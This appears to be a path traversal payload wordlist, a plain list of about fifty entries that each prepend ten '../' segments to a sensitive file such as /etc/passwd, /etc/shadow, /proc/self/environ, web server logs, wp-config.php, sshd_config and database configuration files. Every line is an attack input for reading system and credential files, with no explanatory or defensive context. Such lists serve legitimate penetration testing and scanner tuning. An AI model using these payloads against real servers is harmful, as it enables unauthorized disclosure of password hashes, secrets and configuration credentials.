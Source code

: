 ../../../../../../../../../../etc/passwd
../../../../../../../../../../etc/shadow
../../../../../../../../../../etc/hosts
../../../../../../../../../../etc/hostname
../../../../../../../../../../etc/resolv.conf
../../../../../../../../../../etc/issue
../../../../../../../../../../proc/version
../../../../../../../../../../proc/self/cmdline
../../../../../../../../../../proc/self/environ
../../../../../../../../../../proc/self/status
../../../../../../../../../../var/log/auth.log
../../../../../../../../../../var/log/messages
../../../../../../../../../../var/log/syslog
../../../../../../../../../../var/log/apache2/access.log
../../../../../../../../../../var/log/apache2/error.log
../../../../../../../../../../var/log/nginx/access.log
../../../../../../../../../../var/log/nginx/error.log
../../../../../../../../../../var/log/mysql/error.log
../../../../../../../../../../var/log/cron
../../../../../../../../../../var/www/html/index.php
../../../../../../../../../../var/www/html/config.php
../../../../../../../../../../var/www/html/.htaccess
../../../../../../../../../../var/www/html/wp-config.php
../../../../../../../../../../var/www/html/admin/config.php
../../../../../../../../../../var/www/html/inc/config.php
../../../../../../../../../../var/www/html/includes/config.php
../../../../../../../../../../var/www/html/application/config/config.php
../../../../../../../../../../usr/local/apache/conf/httpd.conf
../../../../../../../../../../usr/local/apache2/conf/httpd.conf
../../../../../../../../../../usr/local/etc/apache2/httpd.conf
../../../../../../../../../../usr/local/nginx/conf/nginx.conf
../../../../../../../../../../usr/local/etc/nginx/nginx.conf
../../../../../../../../../../usr/local/mysql/my.cnf
../../../../../../../../../../usr/local/etc/mysql/my.cnf
../../../../../../../../../../etc/httpd/conf/httpd.conf
../../../../../../../../../../etc/nginx/nginx.conf
../../../../../../../../../../etc/mysql/my.cnf
../../../../../../../../../../etc/php.ini
../../../../../../../../../../etc/ssh/sshd_config
../../../../../../../../../../etc/samba/smb.conf
../../../../../../../../../../etc/pam.d/su
../../../../../../../../../../etc/pam.d/common-auth
../../../../../../../../../../etc/fstab
../../../../../../../../../../etc/crontab
../../../../../../../../../../etc/exports
../../../../../../../../../../etc/issue
../../../../../../../../../../etc/profile
../../../../../../../../../../etc/rc.local
../../../../../../../../../../etc/security/limits.conf